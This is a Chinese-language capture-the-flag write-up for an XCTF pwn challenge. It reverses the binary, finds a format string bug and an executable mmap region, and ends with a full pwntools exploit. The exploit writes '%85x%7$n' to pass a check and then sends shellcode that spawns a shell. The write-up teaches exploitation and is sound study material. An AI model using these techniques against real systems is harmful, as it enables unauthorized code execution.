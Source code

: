 https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5056&page=1

# 分析

## checksec 检查

结果如下

```shell
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 逆向重要的函数

### main

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  _DWORD *v3; // rax
  _DWORD *v4; // ST18_8

  setbuf(stdout, 0LL);
  alarm(0x3Cu);
  sub_400996(60LL, 0LL);
  v3 = malloc(8uLL);
  v4 = v3;
  *v3 = 68;
  v3[1] = 85;
  puts("we are wizard, we will give you hand, you can not defeat dragon by yourself ...");
  puts("we will tell you two secret ...");
  printf("secret[0] is %x\n", v4, a2);
  printf("secret[1] is %x\n", v4 + 1);
  puts("do not tell anyone ");
  sub_400D72(v4);
  puts("The End.....Really?");
  return 0LL;
}
```

可以看到，main 函数做了如下工作：

- 调用了 alarm 函数，并设置了计时为 60s ，也就是说程序会在 60s 后退出，在 repl 中做实验时要注意这一点
- 调用 sub_400996 ，这个函数主要用于输出，比如那条龙就是它的结果
- 分配了 8 个字节的空间，对低 4 位赋值为 68 ，高四位赋值为 85
- 将分配的空间的低四位的地址和高四位的地址分别输出
- 用分配出来的空间的起始地址做参数调用了 sub_400D72

在这些工作中，对解题有帮助的是输出的两个地址以及分配的空间中的两个值，请读者记住

### sub_400D72

```c
unsigned __int64 __fastcall sub_400D72(__int64 a1)
{
  char s; // [rsp+10h] [rbp-20h]
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("What should your character's name be:");
  _isoc99_scanf("%s", &s);
  if ( strlen(&s) <= 0xC )
  {
    puts("Creating a new player.");
    sub_400A7D("Creating a new player.");
    sub_400BB9();
    sub_400CA6(a1);
  }
  else
  {
    puts("Hei! What's up!");
  }
  return __readfsqword(0x28u) ^ v3;
}
```

完成的工作如下：

- 获取输入
- 如果输入的长度大于 12 则回到 main 函数并退出
- 否则继续按顺序调用三个函数，其中第三个函数使用了 main 中得到的地址

### sub_400A7D

```c
unsigned __int64 sub_400A7D()
{
  char s1; // [rsp+0h] [rbp-10h]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
	......
  while ( 1 )
  {
    _isoc99_scanf("%s", &s1);
    if ( !strcmp(&s1, "east") || !strcmp(&s1, "east") )
      break;
    puts("hei! I'm secious!");
    puts("So, where you will go?:");
  }
  if ( strcmp(&s1, "east") )
  {
    if ( !strcmp(&s1, "up") )
      sub_4009DD(&s1, "up");
    puts("YOU KNOW WHAT YOU DO?");
    exit(0);
  }
  return __readfsqword(0x28u) ^ v2;
}
```

完成的工作如下：

- 一直获取输入，直到输入为 east 为止才能进行下一个流程

### sub_400BB9

```c
unsigned __int64 sub_400BB9()
{
  int v1; // [rsp+4h] [rbp-7Ch]
  __int64 v2; // [rsp+8h] [rbp-78h]
  char format; // [rsp+10h] [rbp-70h]
  unsigned __int64 v4; // [rsp+78h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  v2 = 0LL;
  ......
  _isoc99_scanf("%d", &v1);
  if ( v1 == 1 )
  {
    puts("A voice heard in your mind");
    puts("'Give me an address'");
    _isoc99_scanf("%ld", &v2);
    puts("And, you wish is:");
    _isoc99_scanf("%s", &format);
    puts("Your wish is");
    printf(&format, &format);
    puts("I hear it, I hear it....");
  }
  return __readfsqword(0x28u) ^ v4;
}
```

完成的工作如下：

- 获取输入，如果输入的值不是 1 ，那么直接进行下一个流程
- 如果输入的值是 1，那么存在**格式化字符串漏洞**，目前还看不出它的意义

### sub_400CA6

```c
unsigned __int64 __fastcall sub_400CA6(_DWORD *a1)
{
  void *v1; // rsi
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  ......
  if ( *a1 == a1[1] )
  {
    puts("Wizard: I will help you! USE YOU SPELL");
    v1 = mmap(0LL, 0x1000uLL, 7, 33, -1, 0LL);
    read(0, v1, 0x100uLL);
    ((void (__fastcall *)(_QWORD, void *))v1)(0LL, v1);
  }
  return __readfsqword(0x28u) ^ v3;
}
```

完成的功能如下：

- 比较 main 中分配的空间中低四位和高四位的值，如果不相等那么一直 return 至游戏结束
- 如果相等，那么调用 mmap 分配一块 1000h 大小的空间，其中第三个参数告诉我们，这块空间具有可读可写可执行的权限
- 获取输入并存储到这片空间中
- 强转为函数指针并调用之

## 分析并得到 exp

既然我们通过 mmap 获得了一块可执行的空间，那么可以在这里写入 shellcode 来获取 shell ；但是要让程序的执行流程到达这里，我们需要让 main 中分配的那 8 个字节的空间中，低 4 位和高 4 位的值相等；

在 main 函数中，我们获得了它们的地址，而在 sub_400BB9 函数中存在着格式化字符串漏洞，有了这两个条件我们就可以修改其中一个值来使它们相等

在前面的 cheksec 检查中**，我们发现这是一个 64 位的程序，而根据调用规约，前 6 个参数是放在寄存器中的**，那么我们如何构造 payload 呢？

回到 sub_400BB9 中，我们可以发现，在获取 format 的输入前，还获取了一次输入并保存到了 v2 中，这个 v2 在 rsp+8h 的位置，如果我们把 printf 的原型记作 **printf(format, args...)** ，那么这个 v2 恰恰就是 args 中的第 7 个参数，所以我们可以用 '%7$n' 的方式来访问并修改 main 中分配的空间中的值

修改至相等后，程序会执行到巫师给予帮助的部分，我们只要在这里写入 shellcode 即可拿到 shell

所以，最后的 exp 如下：

```python
from pwn import *

p = remote(远程ip, 远程端口)

p.recvuntil('secret[0] is ')

# 获取第四位的地址，用切片切掉最后的\n，开始的空格在上面的 recvuntil 中
# 获得的数字直接用 int(x, 16) 即可转成十进制整型储存在 addr 中
addr = int(p.recvuntil('\n')[:-1], 16)

p.recvuntil('name be:\n')
p.sendline('Yuren')
p.recvuntil('up?:\n')
p.sendline('east')
p.recvuntil('leave(0)?:')
p.sendline('1')
p.recv()
p.sendline(str(addr))
p.recv()
p.sendline('%85x%7$n')
rec = p.recvuntil('SPELL\n')

context(os='linux', arch='amd64')

p.sendline(asm(shellcraft.sh()))
p.interactive()
```

